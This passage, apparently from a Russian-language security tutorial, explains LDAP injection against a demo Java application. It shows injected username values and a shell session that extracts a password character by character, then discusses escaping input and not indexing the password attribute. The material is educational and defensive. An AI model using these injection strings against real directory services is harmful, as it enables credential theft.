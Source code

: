 Если передать строку&nbsp;`bob)(userPassword=a*` в качестве имени пользователя, то это приведет к появлению сообщения 'Nobody found!'. Приложение построило запрос&nbsp;`(&(uid=bob)(userPassword=a*)(objectClass=person))`&nbsp;, который ничего не вернул, потому что поле&nbsp;`userPassword`&nbsp;из записи Боба не начинается с буквы 'a'. Теперь коварный злоумышленник может перебрать первую букву пароля Боба:

```
$ java -cp classes LDAPInfo "bob)(userPassword=a*"
LDAP query: (&(uid=bob)(userPassword=a*)(objectClass=person))
Nobody found!
$ java -cp classes LDAPInfo "bob)(userPassword=b*"
LDAP query: (&(uid=bob)(userPassword=b*)(objectClass=person))
Nobody found!
$ java -cp classes LDAPInfo "bob)(userPassword=c*"
LDAP query: (&(uid=bob)(userPassword=c*)(objectClass=person))
Nobody found!
[...]
$ java -cp classes LDAPInfo "bob)(userPassword=s*"
LDAP query: (&(uid=bob)(userPassword=s*)(objectClass=person))
Phone: telephoneNumber: 555-9999
```

Как только злобный злоумышленник попробует букву 's', то приложение вернет номер телефона Боба. Это означает, что пароль Боба начинается с буквы 's'. Дальше хитрый злоумышленник начинает перебирать вторую букву пароля Боба подставляя строки вида&nbsp;`bob)(userPassword=sa*`, `bob)(userPassword=sb*"`, `"bob)(userPassword=sc*`&nbsp; и так далее. Это позволяет реализовать эффективный перебор, чтобы получить пароль Боба.

Вот пример реализации такого перебора:

<script src="https://gist.github.com/artem-smotrakov/e624953f7843f8a67239e8db332c3333.js"></script>

## Как предотвратить LDAP-инъекции

Ничего революционного перечислено не будет. Проверка входных данных спасут гиганта мысли и отца русской демократии. Приложениям следует экранировать все специальные символы в данных, которые приходят от пользователей. OWASP любезно предоставляет статью об этом (смотри ниже), которая может быть применена не только к Web-приложениям.

Дополнительно мерой может быть отключение индексирования полей, которые могут содержать важную информацию такую как пароли. Например, если поле `userPassword`&nbsp;не индексировано, то запрос, который содержит `(userPassword=a*)`&nbsp;, приведет к ошибке:

```
$ ldapsearch -h ldap.server m -x -b "dc=test,dc=com" "(&(uid=test)(userPassword=a*))"
....
# search result
search: 2
result: 53 Server is unwilling to perform
text: Function Not Implemented, search filter attribute userpassword is not indexed/cataloged

# numResponses: 1
```

Но коварный злоумышленник все еще может попробовать извлечь данные из других индексированных полей.
